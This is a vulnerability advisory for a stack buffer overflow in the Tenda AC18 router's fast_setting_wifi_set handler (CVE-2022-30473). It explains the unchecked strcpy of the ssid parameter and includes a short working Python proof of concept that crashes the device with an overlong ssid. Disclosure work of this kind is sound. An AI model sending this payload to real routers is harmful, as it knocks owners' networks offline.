 # Tenda Router AC18 Vulnerability

This vulnerability lies in the `/goform/fast_setting_wifi_set` page which influences the lastest version of Tenda Router AC18. (The latest version is [AC18_V15.03.05.19(6318)](https://www.tenda.com.cn/download/detail-2683.html))

## Vulnerability Description

There is a **stack-based buffer overflow** vulnerability in function `form_fast_setting_wifi_set`.

In function `form_fast_setting_wifi_set` it reads user provided parameter `ssid` into `src`, and this variable is passed into function `strcpy` without any length check, which may overflow the stack-based buffer `s`.

![Vulnerability Function](./vuln.png)

So by requesting the page `/goform/fast_setting_wifi_set`, the attacker can easily perform a **Deny of Service Attack**.

## PoC

```python
import requests

IP = "10.10.10.1"
url = f"http://{IP}/goform/fast_setting_wifi_set?"
url += "ssid=" + "s" * 100

response = requests.get(url)
```

## Timeline

* 2022-05-06: Report to CVE & CNVD;
* 2022-05-26: CVE ID assigned (CVE-2022-30473)
* 2022-06-05: CNVD ID assigned (CNVD-2022-43197)

## Acknowledge

Credit to [@peanuts](https://github.com/peanuts62), [@Minghao Lin](https://github.com/MinghaoLin2000) and [@cylin](https://github.com/lcyfrank) from IIE, CAS.
